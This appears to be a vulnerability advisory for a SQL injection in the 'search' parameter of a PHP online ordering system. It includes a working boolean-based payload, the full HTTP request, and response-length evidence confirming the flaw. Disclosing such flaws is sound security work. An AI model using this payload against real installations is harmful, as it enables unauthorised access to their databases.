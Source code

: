 # Online Ordering System By janobe has SQL injection vulnerability

Author： Wang Chen Jun

vendor: https://www.sourcecodester.com/php/12978/online-ordering-system-phpmysqli.html

Vulnerability file: /ordering/index.php?q=category&search=

Vulnerability location: /ordering/index.php?q=category&search= //search is Injection point

[+]Payload: /ordering/index.php?q=category&search=3%20and%20length(database())%20=12--+ //search is Injection point

Current database name: multistoredb,length is 12

```sql
GET /ordering/index.php?q=category&search=3%20and%20length(database())%20=12--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
```

When length (database ()) = 11, Content-Length: 18685
![image](https://user-images.githubusercontent.com/54017627/168940877-fe78d6d4-057b-4ac4-a315-a34cdcf494c0.png)

![image](https://user-images.githubusercontent.com/54017627/168940952-82028fe3-7fff-449b-bc0a-8f68fdc5684f.png)

When length (database ()) = 12, Content-Length: 23327
![image](https://user-images.githubusercontent.com/54017627/168940838-8ed656af-0e7e-480f-9ce7-7cc4686a801f.png)

![image](https://user-images.githubusercontent.com/54017627/168940910-5994ba2d-1b3b-42e1-92fb-cee5aa9a7b4a.png)
